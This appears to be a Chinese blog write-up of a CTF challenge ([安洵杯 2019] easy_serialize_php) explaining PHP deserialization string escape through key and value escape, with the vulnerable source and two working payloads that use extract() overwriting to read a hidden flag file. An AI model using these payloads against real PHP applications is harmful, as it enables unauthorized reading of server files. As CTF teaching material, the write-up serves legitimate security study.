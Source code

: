```yaml
---
title: 反序列化字符串逃逸
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
comments: false
date: 2021-01-17 11:19:58
tags: 反序列化
keywords: 反序列化
description: 
photos: \img\article\4.png
---
```


## **PHP反序列化的对象逃逸**

任何具有一定结构的数据，只要经过了某些处理而把自身结构改变，则可能会产生漏洞。

若我们输入的字符串先被序列化,然后又经过过滤函数,那么它的结构将会发生改变,可能就会产生漏洞

这里利用**[安洵杯 2019]easy_serialize_php**来进行讲解

#### 过滤函数引发的结构变化

**第一种为关键词数增加**  

例如： where->hacker，这样词数由五个增加到6个。题目: 0CTF 2016 piapiapia
**第二种为关键词数减少**
例如：直接过滤掉一些关键词

#### **键逃逸和值逃逸**

值逃逸：
这儿需要两个连续的键值对，由第一个的值覆盖第二个的键，这样第二个值就逃逸出去，单独作为一个键值对

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image
```

var_dump的结果为：

```
"a:3{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

键逃逸：

这儿只需要一个键值对就行了，我们直接构造会被过滤的键，这样值得一部分充当键，剩下得一部分作为单独得键值对

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

var_dump的结果为：

```
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mbGxsbGxsYWc=";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

这儿得s:7:””之所以为空，是因为我们构造得键flagphp都是会被过滤得，所以显示为空，这样就能吃掉一部分值了，然后将剩下得值充当另一个对象逃逸出去





## [安洵杯 2019]easy_serialize_php

首先进去就可以看到源码

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);                            //extract变量覆盖

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));  //sha1加密
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

### 知识点

- extract变量覆盖
- 反序列化字符串逃逸

### 解题

首先查看phpinfo发现php.ini中设置了auto_prepend_file隐式包含了d0g3_f1ag.php,本题就是要读取该文件

#### 0x01 extract变量覆盖

extract()函数 该函数使用数组键名作为变量名，使用数组的键值作为变量值

![image-20210117150601750](反序列化字符串逃逸/image-20210117150601750.png)

其实本是知道这个知识点的,但是理解不够深入,导致自己一直没有利用到该知识点

![image-20210117150843092](反序列化字符串逃逸/image-20210117150843092.png)

当我们$_GET传入的是\_session[img]=“index.php"时,经过了extract函数后会产生$\_session[img]=index.php

这里分析代码

先是赋值:

$\_SESSION["user"] = 'guest';
$\_SESSION['function'] = $function;  //若想要显示源码,$f='show_image';

$\_SESSION['img']也只能等于base64_encode('guest_img.png');因为若我们传入参数img_PATH的话img的值会进行sha1加密,而后面是没有解密的

可知三个变量都是我们不能控制的,这里就能够有很多种解了,通过extract()进行变量覆盖

#### 0x02 反序列化字符串逃逸

_session可控后,就可以有很多种解法了,这里提供两种解法:

##### 值逃逸

payload1`:_SESSION[user]=flagflagflagflagflagflagflagphp&_SESSION[function]=function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`
传入的字符串反序列化后:

```php
a:3;{s:4:"user";s:31:"flagflagflagflagflagflagflagphp";
s:8:"function";s:82:"function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
    s:3:"img";s:x:"base64";}
```

经过过滤函数后:

```php
a:3;{s:4:"user";s:31:"";s:8:"function";s:82:"function";
s:8:"function";s:10:"show_image";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
    //;"s:3:"img";s:x:"base64";}
```

##### 键逃逸

payload2:`_SESSION[flagphp]=;s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

```php
传入的字符串反序列化后:
a:2:{s:7:"flagphp";  s:48:";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
s:3:"img";s:x:"base64";}
```

```php
经过过滤函数后:
a:2:{s:7:"";s:48:";  s:1:"a";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}" 
//;"s:3:"img";s:x:"base64";}
```

还有就是写payload最好在本地写,然后看它反序列化后的样子在更改,不然有些小毛病自己发现不了(现在能力太差了)

![image-20210117163109211](反序列化字符串逃逸/image-20210117163109211.png)

然后继续读就可以了

![image-20210117163415047](反序列化字符串逃逸/image-20210117163415047.png)

